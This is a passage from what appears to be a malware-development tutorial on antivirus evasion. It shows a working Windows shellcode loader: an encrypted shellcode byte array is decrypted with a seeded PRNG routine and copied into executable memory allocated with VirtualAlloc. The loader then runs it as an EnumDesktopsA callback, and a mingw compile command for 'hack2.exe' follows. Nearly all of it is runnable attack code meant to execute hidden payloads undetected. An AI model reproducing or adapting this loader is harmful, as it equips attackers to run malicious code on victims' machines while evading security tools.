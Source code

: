 ```cpp
  "\xb3\x4c\xa3\x9e\xc0\x80\x55\x7f\x16\x6c\x0b\x93\xa8"
  "\xfc\xe9\xe6\x6e\xa4\x8c\x92\xba\x68\x27\x7f\x9d\x6d"
  "\x3d\x83\x8a\x29\xcb\xd6\x9c\x08\xdd\xfb\xf9\x5f\x49"
  "\x4e\x36\xc5\xcf\x8c\xcb\x53\xd3\x67\x86\xab\xd2\x55"
  "\x06\x59\x1e\xc7\x27\x0c\xc5\xa2\x0d\x00\x7c\xeb\x65"
  "\xc5\x5d\x9a\x35\xcc\x84\x73\xf2\x7d\xf5\x92\xab\x89"
  "\xe8\x2f\x95\x71\x0e\xdc\xbc\x0f\xec\x5d\x67\xf1\x0f"
  "\x88\xd2\x92\xf7\xcb\x62\x39\x42\xaf\x23\xe3\xad\xfe"
  "\x0b\x5a\x29\x78\xc3\x63\x61\x3b\x8a\xaf\xaa\x79\x69"
  "\xbf\xf3\xc6\xbe\x8d\x0c\xb8\x0c\xdd\xfc\x5b\x50\xf3"
  "\x30\x37\xae\x2f\xbe\x97\x97\x01\xeb\x7c\x8d\x26\xdc"
  "\x2e\x7f\x64\xdd\xda\xeb\x20\x69";

  size_t pad_len = sizeof(padded);
  // printf("%zu\n", pad_len);
  
  printf("encrypted shellcode: ");
  for (int i = 0; i < pad_len; i++) {
    printf("\\x%02x", padded[i]);
  }
  printf("\n\n");

  seed(12345); // PRNG
  mmb_decrypt(padded, pad_len);

  printf("decrypted shellcode: ");
  for (int i = 0; i < pad_len; i++) {
    printf("\\x%02x", padded[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, pad_len-2, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, pad_len - 2);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  return 0;
}
```

### demo 2

Compile it:     

```bash
x86_64-w64-mingw32-g++ -O2 hack2.c -o hack2.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![av-evasion](/assets/images/102/2023-06-26_12-36.png){:class="img-responsive"}      
